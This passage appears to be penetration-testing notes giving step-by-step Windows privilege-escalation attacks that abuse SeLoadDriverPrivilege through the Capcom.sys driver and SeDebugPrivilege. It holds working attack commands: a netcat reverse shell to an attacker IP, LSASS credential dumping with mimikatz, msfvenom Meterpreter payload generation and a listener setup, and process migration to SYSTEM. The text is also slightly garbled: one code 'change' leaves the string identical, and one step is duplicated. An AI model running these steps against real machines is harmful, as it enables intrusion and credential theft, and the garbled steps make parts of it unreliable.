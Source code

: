 Exploitation Steps:
1. create a new "C++ Console App" project in Visual Studio. Let's give the project any name
2. replace all the code in the single CPP file with the contents of the file 'eoploaddriver.cpp' contained in the repository [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver/)
3. if `include "stdafx.h"` produces errors for some reason, you can remove it from the code
4. set the project to 'Release' and 'x64'
5. compiling the project and you will obtain an executable .EXE file
6. upload executable file and Capcom.sys drive. Driver is available at [https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
7. execute on the target machine: `.\<FILE ESEGUIBILE>.exe System\CurrentControlSet\dfserv C:\absolute\path\to\Capcom.sys`. If the output of command isn't equal to `NTSTATUS: 00000000`, it means that there was an error (note: "dfserv" has no meaning, it can be any).
8. go back to the attacking machine and clone [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
9. in "ExploitCapcom.cpp" file, change the code `TCHAR CommandLine[] = TEXT("C:\Windows\system32\cmd.exe");` to `TCHAR CommandLine[] = TEXT("C:\Windows\system32\cmd.exe");`
10. compiling the project
11. upload reverse shell executable file and executable file produced by the compilation on the target machine. Reverse shell executable file should be located in `C:\absolute\path\to\reverse.exe`
12. activate a *netcat* listener on the attacking host
13. on the target run: `.\ExploitCapcom.exe` - if exploit fails immediately in `CreateFile` then it means the driver has not been loaded

### SeDebugPrivilege

Vulnerability identikit:
- privilegio `SeDebugPrivilege` privilege for current user

Exploitation:
- LSASS dumping with *mimikatz*
- reverse shell:
	1. upload the following script on target machine: [https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
	2. `import-module .\psgetsys.ps1`
	3. identify the PID of a privileged process, e.g. "winlogon": `Get-Process winlogon`
	4. activate listener *netcat*
	5. shell: `[MyProcess]::CreateProcessFromParent("<PID PRIVILEGED PROCESS>","c:\windows\system32\cmd.exe", "/c c:\abssolute\path\to\nc.exe <IP ATTACKER> <REVERSE PORT> -e cmd.exe")`
- *Meterpreter* migration:
	1. generate and upload a Meterpreter payload: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o meter.exe`
	2. a Meterpreter handler is activated on attacker machine: `msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0;set LPORT 4444;run;"`
	3. you run the Meterpreter binary on victim machine directly and you will receive a meterpreter shell
	4. you run the Meterpreter binary on victim machine directly and you will receive a meterpreter shell
		- `getuid` - current username
		- `run windows/gather/win_privs` - current privileges
		- `ps` - running process
	5.  identify the PID of a privileged process, such as "winlogon"
	6. migrate to the privileged process: `migrate <PID PRIVILEGED PROCESS>`
	7. to obtain a classic shell: `shell`
